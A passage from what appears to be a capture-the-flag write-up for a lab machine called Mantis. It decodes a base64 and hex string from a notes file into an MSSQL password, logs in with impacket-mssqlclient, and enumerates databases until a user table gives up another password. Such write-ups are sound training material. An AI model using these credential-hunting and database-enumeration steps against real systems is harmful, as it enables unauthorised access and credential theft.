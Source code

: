 - I missed it the first time I saw, but the the `dev_notes` files has a `base64` part
  - If we decode it, we have `hex`
  - Then when convert it from `hex` and we have another password
  - `m$$ql_S@_P@ssW0rd!`

![](./images/7.png)

- Tried login to `mssql` as `sa` but failed
  - Then tried as `admin` it worked
```
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient sa:'m$$ql_S@_P@ssW0rd!'@10.10.10.52    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] ERROR(MANTIS\SQLEXPRESS): Line 1: Login failed for user 'sa'.
```
```          
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient admin:'m$$ql_S@_P@ssW0rd!'@10.10.10.52 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 32576
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL> 

```

- Now let's enumerate the database
  - `SELECT name FROM master.dbo.sysdatabases;`
  - `use orcharddb;`
  - `SELECT * FROM orcharddb.INFORMATION_SCHEMA.TABLES;`
  - `SELECT * FROM blog_Orchard_Users_UserPartRecord;`
  - We have `james:J@m3s_P@ssW0rd!`
